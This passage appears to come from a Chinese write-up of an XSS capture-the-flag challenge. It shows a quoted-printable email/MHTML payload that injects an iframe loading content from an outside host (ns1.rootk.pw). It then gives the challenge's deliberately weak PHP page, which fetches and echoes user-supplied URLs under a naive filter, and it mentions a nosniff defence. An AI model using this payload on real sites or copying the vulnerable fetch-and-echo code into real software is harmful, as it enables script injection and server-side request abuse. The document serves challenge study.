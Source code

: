 exp
```
TESTEML
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable

=3Ciframe=20src=3D=27http=3A=2f=2fxianzhi.aliyun.com=2fxss7.php=3Furl=3Dhttp=3A=2f=2fns1.rootk.pw=3A8080=2fxss=2fwp=2f9.txt=3Fname=3D=3CHTML=3E=3Ch1=3Eit=20works=3C=2Fh1=3E=27=3E=3C=2Fiframe=3E
```

这里的这种方式可以通过设置
```
X-Content-Type-Options: nosniff
```
来防御

# 08 标签#

```
<?php
header("X-XSS-Protection: 0");
header("Content-Type: text/html;charset=utf-8");

if(substr($_GET["url"],0,4) ==="http" && substr($_GET["url"],0,8)<>"http://0" && substr($_GET["url"],0,8)<>"http://1" && substr($_GET["url"],0,8)<>"http://l" && strpos($_GET["url"], '@') === false)
{
$rule="/<[a-zA-Z]/";
$opts = array('http' =>
    array(
        'method' => 'GET',
        'max_redirects' => '0',
        'ignore_errors' => '1'
    )
);
$context = stream_context_create($opts);
$url=str_replace("..","",$_GET["url"]);
$stream = fopen($url, 'r', false, $context);
$content=stream_get_contents($stream);
if(preg_match($rule,$content))
{
echo "XSS Detected!";
}
else
{
echo $content;
}
}
else
{
echo "Bad URL!";
}
?>
```
